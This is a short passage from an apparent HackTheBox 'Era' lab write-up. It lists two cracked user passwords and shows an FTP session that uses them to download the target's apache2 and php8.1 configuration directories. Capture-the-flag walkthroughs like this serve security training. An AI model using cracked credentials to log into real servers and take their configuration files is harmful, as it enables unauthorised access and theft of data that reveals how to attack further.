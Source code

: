 Only `eric` and `yuri` were broken:
```Passwords
america (eric)
mustang (yuri)
```
Let's try to enter FTP through them:

![image](images/20250728165150.png)

Download these two directories to your host:
```FTP
ftp> passive
Passive mode on.
ftp> lcd /home/dex1d/Pentesting/HackTheBox/Era/apache2_conf/
Local directory now /home/dex1d/Pentesting/HackTheBox/Era/apache2_conf
ftp> cd apache2_conf
250 Directory successfully changed.
ftp> prompt
Interactive mode off.
ftp> mget *
ftp> prompt
Interactive mode on.
ftp> lcd /home/dex1d/Pentesting/HackTheBox/Era/php8.1_conf/
Local directory now /home/dex1d/Pentesting/HackTheBox/Era/php8.1_conf
ftp> cd ../php8.1_conf/
250 Directory successfully changed.
ftp>prompt
Interactive mode off.
ftp> mget *
```

![image](images/20250728170119.png)

<div style="page-break-after: always;"></div>
